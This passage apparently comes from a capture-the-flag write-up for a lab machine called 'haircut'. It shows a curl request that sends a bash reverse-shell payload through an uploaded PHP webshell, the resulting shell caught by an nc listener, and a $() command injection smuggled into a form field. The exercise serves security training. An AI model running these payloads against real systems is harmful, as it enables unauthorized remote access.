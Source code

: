To go to a real shell, I’ll start `nc` and send that command to the webshell:

```

root@kali# curl -G http://10.10.10.24/uploads/0xdf.php --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.15/443 0>&1'"

```

At a `nc` listener:

```

root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.24.
Ncat: Connection from 10.10.10.24:43828.
bash: cannot set terminal process group (1225): Inappropriate ioctl for device
bash: no job control in this shell
www-data@haircut:~/html/uploads$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

### Alternative Injection

I noticed the none of ``$()` were triggering the filter, so I went for command injection that way as well. The `curl` command throws errors onto the page:

```

root@kali# curl http://10.10.10.24/exposed.php -d 'formurl=10.10.14.15/$(ping -c 1 10.10.14.15)&submit=go'
<html>
        <head>
                <title>Hairdresser checker</title>
        </head>
        <body>
        <form action='exposed.php' method='POST'>
                <span>
                <p>
                Enter the Hairdresser's location you would like to check. Example: http://localhost/test.html
                </p>
                </span>
                <input type='text' name='formurl' id='formurl' width='50' value='http://localhost/test.html'/>
                <input type='submit' name='submit' value='Go' id='submit' />
        </form>
        <span>
                <p>Requesting Site...</p>curl: option ---: is unknown
curl: try 'curl --help' or 'curl --manual' for more information
        </span>
        </body>
</html>

```
